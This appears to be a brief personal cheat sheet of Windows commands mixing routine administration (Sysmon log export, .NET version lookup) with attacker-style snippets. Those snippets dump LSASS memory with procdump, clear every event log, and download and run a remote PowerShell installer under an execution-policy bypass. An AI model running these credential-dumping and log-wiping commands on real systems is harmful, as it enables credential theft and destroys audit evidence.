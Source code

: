 Live sys internals
```
net use s: \\live.sysinternals.com\tools;
s:\procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1'
```

Choco install
```
Set-ExecutionPolicy Bypass -Scope Process -Force; 
iex ((New-ObjectSystem.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1'))
```

Clear all logs
```
wevtutil el | Foreach-Object {wevtutil cl “$_”};
ping localhost;
```

Export sysmon log
```
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:sysmonview > $env:HOMEPATH\Downloads\eventlog.xml
```

Return .NET versions
```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -recurse |
Get-ItemProperty -name Version,Release -EA 0 |
Where { $_.PSChildName -match '^(?!S)\p{L}'} |
Select PSChildName, Version, Release
```
